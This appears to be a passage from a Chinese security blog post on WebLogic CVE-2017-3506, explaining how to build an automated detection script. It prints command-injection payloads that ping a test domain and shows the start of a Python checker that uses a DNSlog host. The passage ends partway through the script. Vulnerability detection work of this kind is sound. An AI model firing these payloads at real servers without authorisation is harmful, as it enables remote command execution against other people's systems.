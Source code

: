 

![space_command](img/weblogic_CVE_2017_3506/space_command.png)



![space_command](img/weblogic_CVE_2017_3506/space_false.png)

### 0x3、自动检测脚本

上面的PoC是在本地生成文件，需要登录系统查看，而且需要依赖burp发包。我想更进一步，试试写个自动化检测脚本。大概弄清除了PoC的一些关键点后，可以尝试修改命令来构造检测脚本了。我们这里使用自己搭建的DNSlog来检查无回显的命令执行（如果单纯http请求而不是DNS请求，可以试试https://requestb.in/）。

payload中的命令分别为：

```
C:\Windows\System32\cmd.exe /c "ping -n 3 test.com || ping -c 3 test.com"

/bin/bash -c "ping -n 3 test.com || ping -c 3 test.com"
```

完整的检测脚本如下：

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

import requests
import sys
import urlparse

dnslog_address= "test.0y0.link"

heads = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0',
```